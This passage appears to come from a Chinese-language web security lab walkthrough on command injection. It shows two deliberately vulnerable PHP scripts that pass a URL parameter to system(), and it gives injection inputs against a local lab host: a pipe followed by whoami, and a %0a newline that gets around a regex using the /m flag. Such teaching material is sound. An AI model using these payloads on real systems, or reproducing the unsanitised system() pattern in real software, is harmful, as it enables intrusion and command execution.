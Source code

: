 ### 2.1.2 Commands injection Example 1

从代码可以看出未做过滤

```plain
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用|连接符跟上要执行的命令  
[http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1](http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1) | whoami  
[![](assets/1704850598-f6cb1ceb3763ca117dc0d94b9f333410.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/VsIuqiVHiaU2vVyN.png)

### 2.1.3 Commands injection Example 2

从代码可以看出使用/m，/m只匹配一行，所以可以使用换行符绕过

```plain
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用%0a进行绕过  
[http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami](http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami)  